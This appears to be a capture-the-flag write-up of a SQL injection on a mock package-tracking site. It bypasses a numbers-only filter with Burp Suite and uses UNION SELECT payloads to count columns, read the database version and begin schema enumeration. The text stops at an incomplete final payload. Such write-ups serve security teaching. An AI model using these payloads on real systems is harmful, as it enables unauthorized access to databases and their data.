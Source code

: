The system displayed the tracking website that has the illegal package's tracking number

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/8d9231bf-6516-46e1-8425-60d4058326ef)

1. Can track normal traking number by entering 100920001 or 100920002 or 100920003. It will display the normal package status and other details.
2. Insert any one of the SQL syntax in the box such as ' OR 1 -- - or others but the website will filter because only accept numbers only.
3. Open burp suite and intercept the search box in the website.

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/d9441653-048b-4543-a6c3-4f1a813dae6a)

5. Enter the id with SQL syntax below
    
```
-1' UNION SELECT null,null,null,null,null,null-- 
```

6. It will show result with no data.
7. Insert @@version on one of the null will give the current version of the database.

```
-1' UNION SELECT null,null,null,null,null,@@version-- 
```

8. After get the version and what type of the database, we can figure out how their syntax to enter. Enter next command:

```
-1' UNION SELECT null,null,null,null,null,information.-- 
```

